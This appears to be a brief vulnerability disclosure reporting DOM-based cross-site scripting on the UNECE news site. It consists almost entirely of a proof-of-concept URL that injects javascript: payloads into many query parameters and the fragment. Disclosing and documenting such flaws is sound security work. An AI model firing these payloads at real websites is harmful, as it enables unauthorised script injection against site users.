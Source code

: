 # UN DOM-based cross site scripting
Discovery By: *Leu Xuan Hieu*
* Payload
```c
https://unece.org/unece-content/news?type=2&accordion=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&f[0]=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&f[1]=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&f[2]=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&keyword=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&past=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&tab=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&unsubscribe=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")&wvstest=javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")#javascript:domxssExecutionSink(1,"'\"><xsstag>()domxss")
```
![](https://i.imgur.com/ro5cuYc.png)
